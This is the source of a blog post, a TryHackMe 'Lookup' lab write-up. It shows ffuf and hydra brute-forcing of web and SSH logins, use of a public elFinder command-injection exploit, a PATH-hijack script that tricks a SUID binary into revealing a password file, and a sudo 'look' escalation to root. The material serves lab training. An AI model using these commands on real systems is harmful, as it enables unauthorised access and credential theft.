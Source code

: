 ```yaml
---
layout: post
title: Lookup (TryHackMe)
date: 2025-05-20
categories: [CTF, TryHackme]
tags: [login bruteforce, SUID, GTFObins, Look]
---
```



![lookup](https://c00lrabbit.github.io/assets/Images/Lookup/lookup.png)

## Nmap Result

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)

80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

# Enumeration

## HTTP(80)

### Dirsearch


```bash
dirsearch -h http://lookup.thm

[14:33:07] 403 -  275B  - /.php                                             
[14:33:59] 200 -    1B  - /login.php                                        
[14:34:16] 403 -  275B  - /server-status                                    
[14:34:16] 403 -  275B  - /server-status/

```

## Website Features
- Login page

![Login](https://c00lrabbit.github.io/assets/Images/Lookup/Login-page.png)

- I tried injection attacks, Intercepted the traffic and Analyzed but no use.

#### Using ffuf we can try bruteforcing the login

```bash
ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -fw 8 
```
![ffuf password ](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-password.png)

But this password doesn't login so i enumerated the username

```bash
 ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-username.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=password123' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
```

![ffuf uname](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-uname.png)

- After we login with the correct credentials we get into `files.lookup.thm` vhost.
- There is a service running on this vhost named "elFinder".

![elfinder dashboard](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-hpage.png)

- Found the version of the elFinder

![elfinder version info](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-info.png)

# Exploitation

- This version is vulnerable to php command injection which leads to RCE.
- We found a Exploit from Exploit-DB https://www.exploit-db.com/exploits/46481

![exploit sshell](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)

We can upgrade this into interactive shell using Reverse shell.com
![rev-shell](https://c00lrabbit.github.io/assets/Images/Lookup/revshell-generator.png)

- After running linpeas we found a SUID
![linpeas-suid](https://c00lrabbit.github.io/assets/Images/Lookup/linpeas-SUID.png)

- Running pwm binary

![pwm-binary](https://c00lrabbit.github.io/assets/Images/Lookup/pwm-binary.png)

## Analysing the binary
- When we run this binary it executes `id` command and from the result it search for a .password file under the user.

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```
### Breakdown of the above commands
- We are redirecting to `/tmp` because `/tmp` directory have mostly read and write access.
- Creating a shell script named 'id' we are echoing the commands into the file 'id'.
-  Adding Execution privilege to the script and exporting `/tmp` dir to PATH, Here comes the intresting part in linux when we are running a command or file it first check the location of the file form the PATHS list so here we are adding the `/tmp` which makes the `/usr/sbin/pwm` script to run our malicious 'id' script.
- Our script will output like the think user and we can read the /home/think/.passwords file Because the pwm script thinks we are 'think' user.

- After running the above line we get this password list

```
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
....

```

- Using hydra we can bruteforce the login

```bash
hydra -l think -P password.txt ssh://lookup.thm -t 40 -v
```
![hydra-out](https://c00lrabbit.github.io/assets/Images/Lookup/hydra-out.png)

# Privilege Escalation

- Using the found credentials we can ssh into the machine.
```
ssh think@lookup.thm
```

- After running `sudo -l` we found that we have access to "look" with sudo.
- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass.

![GTFO-Bins](https://c00lrabbit.github.io/assets/Images/Lookup/gtfo-bin.png)

- We got the root

![root](https://c00lrabbit.github.io/assets/Images/Lookup/Root.png)

## Conclusion
- Bypassing the login page is bit tricky and getting the password list you have to think outside the box.
- Privilege escalation is Stright forward.
- Overall it is a good machine to Test you bruteforcing skills and Enumeration skills.